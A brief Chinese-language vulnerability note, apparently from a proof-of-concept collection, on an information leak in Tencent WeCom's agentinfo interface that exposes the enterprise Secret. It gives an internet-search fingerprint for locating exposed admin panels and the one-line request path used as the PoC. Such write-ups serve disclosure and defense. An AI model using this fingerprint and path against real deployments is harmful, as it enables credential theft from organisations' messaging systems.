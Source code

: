 # 腾讯 企业微信 agentinfo 信息泄漏漏洞

## 漏洞描述

腾讯 企业微信 agentinfo 接口存在信息泄漏漏洞，攻击者通过漏洞可以获取企业微信 Secret

## 漏洞影响

<a-checkbox checked>腾讯 企业微信</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="wework_admin.normal_layout"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691826671192-b1e9846a-3d9d-423e-aa0f-8800074af3c5.png)

验证POC

```php
/cgi-bin/gateway/agentinfo
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691826986597-d2dc28f9-7e86-4752-8fae-954bf44d5e0b.png)